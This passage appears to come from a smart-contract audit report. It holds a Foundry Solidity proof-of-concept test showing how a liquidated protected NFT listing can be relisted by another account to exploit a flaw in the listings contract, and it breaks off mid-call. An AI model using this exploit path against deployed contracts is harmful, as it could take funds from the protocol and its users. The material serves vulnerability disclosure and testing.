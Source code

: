 ### Coded PoC       
Put this in Listings.t.sol and use `forge test --match-test test_relistingLiquidationListings -vvv`
```solidity
   function test_relistingLiquidationListings() public {
        //===========Setup===========
        listings.setProtectedListings(address(protectedListings));
        ICollectionToken token = locker.collectionToken(address(erc721a));
        //Ensure we have some balance in the listings contract
        deal(address(token), address(listings), 5 ether);

        address _owner = address(0x77);
        address _relister = address(0x78);
        address randomBuyer = address(0x79);
        uint _tokenId = 2555;

        assertEq(token.denomination(), 0);
        uint startBalanceOwner = token.balanceOf(_owner);
        uint startBalanceRelister = 5 ether; 
        uint startBalanceBuyer = 10 ether;
        deal(address(token), _relister, startBalanceRelister);
        deal(address(token), randomBuyer, startBalanceBuyer);

        uint uniswapPoolStartBalance = token.balanceOf(address(uniswapImplementation)); 
        erc721a.mint(_owner, _tokenId);

        uint startBalanceListingContract = token.balanceOf(address(listings)); 
        //===========Setup===========

        vm.startPrank(_owner);
        erc721a.approve(address(protectedListings), _tokenId);
        _createProtectedListing({
            _listing: IProtectedListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(_tokenId),
                listing: IProtectedListings.ProtectedListing({
                    owner: payable(_owner),
                    tokenTaken: 0.95 ether,
                    checkpoint: 0
                })
            })
        });
        skip(1); // allow interest to accrue so we can liquidate

        protectedListings.liquidateProtectedListing(address(erc721a), _tokenId);

        skip(3.97 days); // Skipping some days so price becomes ~ floor. The vulnarability exists even if its not close to floor.

        //--Relist the luqidation listing NFT--//
        vm.startPrank(_relister);
        token.approve(address(listings), 4.5 ether);
        listings.relist({
            _listing: IListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(_tokenId),
                listing: IListings.Listing({
                    owner: payable(_relister),
                    created: uint40(block.timestamp),
                    duration: listings.MIN_LIQUID_DURATION(),
                    floorMultiple: 105
                })
            }),
            _payTaxWithEscrow: false
```